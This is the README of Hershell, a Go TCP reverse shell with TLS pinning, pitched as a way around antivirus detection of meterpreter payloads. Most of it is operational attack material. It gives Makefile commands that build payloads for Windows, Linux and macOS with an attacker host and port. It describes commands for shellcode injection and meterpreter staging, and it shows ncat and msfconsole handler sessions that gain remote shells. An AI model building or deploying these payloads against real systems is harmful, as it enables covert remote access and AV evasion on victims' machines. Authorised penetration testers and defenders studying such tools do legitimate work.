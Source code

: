 # Hershell

Simple TCP reverse shell written in [Go](https://golang.org).

It uses TLS to secure the communications, and provide a certificate public key fingerprint pinning feature, preventing from traffic interception.

Supported OS are:

- Windows
- Linux
- Mac OS
- FreeBSD and derivatives

## Why ?

Although meterpreter payloads are great, they are sometimes spotted by AV products.

The goal of this project is to get a simple reverse shell, which can work on multiple systems.

## How ?

Since it's written in Go, you can cross compile the source for the desired architecture.

## Getting started & dependencies

As this is a Go project, you will need to follow the [official documentation](https://golang.org/doc/install) to set up
your Golang environment (with the `$GOPATH` environment variable).

Then, just run `go get github.com/sysdream/hershell` to fetch the project.

### Building the payload

To simplify things, you can use the provided Makefile.
You can set the following environment variables:

- ``GOOS`` : the target OS
- ``GOARCH`` : the target architecture
- ``LHOST`` : the attacker IP or domain name
- ``LPORT`` : the listener port

For the ``GOOS`` and ``GOARCH`` variables, you can get the allowed values [here](https://golang.org/doc/install/source#environment).

However, some helper targets are available in the ``Makefile``:

- ``depends`` : generate the server certificate (required for the reverse shell)
- ``windows32`` : builds a windows 32 bits executable (PE 32 bits)
- ``windows64`` : builds a windows 64 bits executable (PE 64 bits)
- ``linux32`` : builds a linux 32 bits executable (ELF 32 bits)
- ``linux64`` : builds a linux 64 bits executable (ELF 64 bits)
- ``macos32`` : builds a mac os 32 bits executable (Mach-O)
- ``macos64`` : builds a mac os 64 bits executable (Mach-O)

For those targets, you just need to set the ``LHOST`` and ``LPORT`` environment variables.

### Using the shell

Once executed, you will be provided with a remote shell.
This custom interactive shell will allow you to execute system commands through `cmd.exe` on Windows, or `/bin/sh` on UNIX machines.

The following special commands are supported:

* ``run_shell`` : drops you an system shell (allowing you, for example, to change directories)
* ``inject <base64 shellcode>`` : injects a shellcode (base64 encoded) in the same process memory, and executes it (Windows only at the moment).
* ``meterpreter [tcp|http|https] IP:PORT`` : connects to a multi/handler to get a stage2 reverse tcp, http or https meterpreter from metasploit, and execute the shellcode in memory (Windows only at the moment)
* ``exit`` : exit gracefully

## Usage

First of all, you will need to generate a valid certificate:
```bash
$ make depends
openssl req -subj '/CN=yourcn.com/O=YourOrg/C=FR' -new -newkey rsa:4096 -days 3650 -nodes -x509 -keyout server.key -out server.pem
Generating a 4096 bit RSA private key
....................................................................................++
.....++
writing new private key to 'server.key'
-----
cat server.key >> server.pem
```

For windows:

```bash
# Predifined 32 bit target
$ make windows32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make windows64 LHOST=192.168.0.12 LPORT=1234
```

For Linux:
```bash
# Predifined 32 bit target
$ make linux32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make linux64 LHOST=192.168.0.12 LPORT=1234
```

For Mac OS X
```bash
$ make macos LHOST=192.168.0.12 LPORT=1234
```

## Examples

### Basic usage

One can use various tools to handle incomming connections, such as:

* socat
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

Here is an example with `ncat`:

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 172.16.122.105.
Ncat: Connection from 172.16.122.105:47814.
[hershell]> whoami
desktop-3pvv31a\lab
```

### Meterpreter staging

**WARNING**: this currently only work for the Windows platform.

The meterpreter staging currently supports the following payloads :

* `windows/meterpreter/reverse_tcp`
* `windows/x64/meterpreter/reverse_tcp`
* `windows/meterpreter/reverse_http`
* `windows/x64/meterpreter/reverse_http`
* `windows/meterpreter/reverse_https`
* `windows/x64/meterpreter/reverse_https`

To use the correct one, just specify the transport you want to use (tcp, http, https)

To use the meterpreter staging feature, just start your handler:

```bash
[14:12:45][172.16.122.105][Sessions: 0][Jobs: 0] > use exploit/multi/handler
[14:12:57][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
[14:13:12][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set lhost 172.16.122.105
lhost => 172.16.122.105
[14:13:15][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set lport 8443
lport => 8443
[14:13:17][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set HandlerSSLCert ./server.pem
HandlerSSLCert => ./server.pem
[14:13:26][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.

[*] [2018.01.29-14:13:29] Started HTTPS reverse handler on https://172.16.122.105:8443
[14:13:29][172.16.122.105][Sessions: 0][Jobs: 1] exploit(multi/handler) >
```

Then, in `hershell`, use the `meterpreter` command:

```bash
[hershell]> meterpreter https 172.16.122.105:8443
```

A new meterpreter session should pop in `msfconsole`:

```bash
[14:13:29][172.16.122.105][Sessions: 0][Jobs: 1] exploit(multi/handler) >
[*] [2018.01.29-14:16:44] https://172.16.122.105:8443 handling request from 172.16.122.105; (UUID: pqzl9t5k) Staging x64 payload (206937 bytes) ...
[*] Meterpreter session 1 opened (172.16.122.105:8443 -> 172.16.122.105:44804) at 2018-01-29 14:16:44 +0100

[14:16:46][172.16.122.105][Sessions: 1][Jobs: 1] exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x64/windows  DESKTOP-3PVV31A\lab @ DESKTOP-3PVV31A  172.16.122.105:8443 -> 172.16.122.105:44804 (10.0.2.15)

[14:16:48][172.16.122.105][Sessions: 1][Jobs: 1] exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-3PVV31A\lab
```

## Credits

Ronan Kervella `<r.kervella -at- sysdream -dot- com>`
